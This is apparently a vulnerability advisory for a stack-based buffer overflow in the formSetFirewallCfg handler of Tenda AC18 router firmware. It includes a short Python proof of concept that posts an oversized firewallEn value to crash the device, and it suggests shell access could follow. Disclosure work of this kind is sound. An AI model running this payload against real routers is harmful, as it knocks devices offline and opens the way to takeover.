

## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## 2. Vulnerability details


A stack overflow vulnerability exists in the formSetFirewallCfg function of the Tenda AC18 V15.03.05.019 firmware. The v1 variable retrieves the firewallEn parameter from a POST request without proper validation. 
The program directly copies the content of src into the stack buffer dest, using the strcpy function. However, no size validation is performed on the content of src before the copying operation. Since strcpy does not limit the length of the copied data, an attacker can supply a crafted "firewallEn" parameter with a length exceeding the size of the stack buffers, leading to a stack-based buffer overflow. This vulnerability can result in Denial of Service (DoS) by overwriting critical stack memory with controlled data.

   
   

## 3 POC
```python
import requests

url = 'http://IP:port/goform/SetFirewallCfg"

headers = {"Cookie": "password=You cookie"}

data = {
    'serverEn': 2,
    'firewallEn': 'l' * 10000
}
res = requests.post(url=url, headers=headers, data=data)
print(res.text)
```
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
